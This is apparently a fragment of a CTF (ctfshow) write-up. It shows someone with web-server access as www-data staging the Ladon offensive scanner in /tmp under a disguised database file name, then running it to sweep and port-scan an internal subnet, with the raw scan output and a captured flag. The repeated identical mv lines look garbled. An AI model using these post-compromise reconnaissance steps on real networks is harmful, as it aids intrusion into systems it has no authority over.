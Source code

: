 上传版Landon

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.001

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.002

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.003

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.004

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.005

mv  /var/www/html/system36d/db/data_you_never_know.db /tmp/Ladon64.lnx.zip.006

```
(www-data:/tmp) $ ./Ladon64.lnx.dat 172.2.82.4/24 OnlinePC > 2.txt
(www-data:/tmp) $ cat 2.txt
LadonGo 3.8 by k8gege
Arch: amd64 OS: linux
User: www-data IsUser
Pid:  2416 Process: Ladon64.lnx.dat
Targe: 172.2.82.4/24
ScanStart: 2021-11-04 10:52:49
Load OnlinePC
PING: 172.2.82.2
PING: 172.2.82.4
PING: 172.2.82.1
PING: 172.2.82.7
PING: 172.2.82.3
PING: 172.2.82.5
PING: 172.2.82.6

(www-data:/tmp) $ ./Ladon64.lnx.dat 172.2.82.4/24 PortScan  > 2.txt
(www-data:/tmp) $ cat 2.txt
LadonGo 3.8 by k8gege
Arch: amd64 OS: linux
User: www-data IsUser
Pid:  2943 Process: Ladon64.lnx.dat
Targe: 172.2.82.4/24
ScanStart: 2021-11-04 10:53:22
Load PortScan
172.2.82.5 80 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:30 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
172.2.82.4 80 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:30 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
172.2.82.5 3000 Open HTTP/1.1 200 OK X-Powered-By: Express Content-Type: text/html; charset=utf-8 Content-Length: 361 ETag: W/"169-YNst7h2w7VjJ2eAApqMWJ+UiDpU" Date: Thu, 04 Nov 2021 10:53:38 GMT Connection: keep-alive Keep-Alive: timeout=5  <!DOCTYPE html><html><head><title>ctfshow</title><link rel="stylesheet" href="/stylesheets/style.css"><script rel="javascript" href="/javascripts/jquery.js"></script></head><body><h1>ctfshow</h1><p>还是被你找到啦，flag给你flag_667=ctfshow{503a075560764e3d116436ab73d7a560}</p><p>不过你还需要rce me，绝望吗？ </p><p>ctfshow</p></body></html>
172.2.82.5 8888 Open HTTP/1.1 400 Bad Request Server: nginx/1.18.0 Date: Thu, 04 Nov 2021 10:53:46 GMT Content-Type: text/html Content-Length: 157 Connection: close  <html> <head><title>400 Bad Request</title></head> <body> <center><h1>400 Bad Request</h1></center> <hr><center>nginx/1.18.0</center> </body> </html> 
 Finished: 2021-11-04 10:53:46
```
